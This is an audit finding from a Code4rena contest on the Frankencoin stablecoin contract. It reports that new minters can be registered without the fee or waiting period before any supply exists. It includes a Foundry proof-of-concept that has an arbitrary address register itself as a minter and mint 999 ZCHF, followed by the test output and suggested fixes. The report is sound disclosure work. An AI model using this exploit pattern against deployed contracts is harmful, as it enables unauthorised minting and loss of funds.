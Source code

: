 # Title

- Mistakes in minter settings during initial contract deployment

# Links to affected code*

[https://github.com/code-423n4/2023-04-frankencoin/blob/main/contracts/Frankencoin.sol#L84](https://github.com/code-423n4/2023-04-frankencoin/blob/main/contracts/Frankencoin.sol#L84)

[https://github.com/code-423n4/2023-04-frankencoin/blob/main/contracts/Frankencoin.sol#L85](https://github.com/code-423n4/2023-04-frankencoin/blob/main/contracts/Frankencoin.sol#L85)

# **Vulnerability details ***

```jsx
function suggestMinter(address _minter, uint256 _applicationPeriod, uint256 _applicationFee, string calldata _message) override external {
      if (_applicationPeriod < MIN_APPLICATION_PERIOD && totalSupply() > 0) revert PeriodTooShort();
      if (_applicationFee < MIN_FEE  && totalSupply() > 0) revert FeeTooLow();
      if (minters[_minter] != 0) revert AlreadyRegistered();
      _transfer(msg.sender, address(reserve), _applicationFee);
      minters[_minter] = block.timestamp + _applicationPeriod;
      emit MinterApplied(_minter, _applicationPeriod, _applicationFee, _message);
   }
```

It is possible to Mint ZCHF when contract just created and NO ZCHF has been minted.

So attacker can mint tokens and ruin the contract

## Proof of Concept

### direct link github

[https://github.com/code-423n4/2023-04-frankencoin/blob/main/contracts/Frankencoin.sol#L83](https://github.com/code-423n4/2023-04-frankencoin/blob/main/contracts/Frankencoin.sol#L83)

### PoC

```jsx
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "../contracts/test/Strings.sol";
import "../contracts/test/TestToken.sol";
import "../contracts/IERC20.sol";
import "../contracts/Equity.sol";
import "../contracts/IReserve.sol";
import "../contracts/IFrankencoin.sol";
import "../contracts/Ownable.sol";
import "../contracts/Position.sol";
import "../contracts/IPosition.sol";
import "../contracts/MintingHub.sol";
import "../contracts/PositionFactory.sol";
import "../contracts/StablecoinBridge.sol";
import "forge-std/Test.sol";
import "forge-std/console.sol";

contract GeneralTest is Test {
    IFrankencoin zchf;
    User alice;
    User bob;
    address junan;

    constructor(){
        zchf = Frankencoin(0x7a787023f6E18f979B143C79885323a24709B0d8);
        junan = address(0x1234);
    }
    function testTets() public {
        console.log("block number: ",block.number);
        
        vm.startPrank(junan);
        console.log("junan's token before mint:",zchf.balanceOf(junan));

        zchf.suggestMinter(junan, 0, 0, "");
        zchf.mint(junan, 999 ether, 0, 0);

        console.log("junan's token after mint:",zchf.balanceOf(junan));
        vm.stopPrank();
    }
}
```
### Result
```
Compiler run successful

Running 1 test for test/GeneralTest.t.sol:GeneralTest
[PASS] testTets() (gas: 106067)
Logs:
  block number:  17079780
  junan's token before mint: 0
  junan's token after mint: 999000000000000000000
```

## Tools Used

 Foundry forge

## Recommended Mitigation Steps

1. Use constructor and mint 1 or more token
2. [https://github.com/code-423n4/2023-04-frankencoin/blob/main/contracts/Frankencoin.sol#L85](https://github.com/code-423n4/2023-04-frankencoin/blob/main/contracts/Frankencoin.sol#L85) change >  ⇒  ≥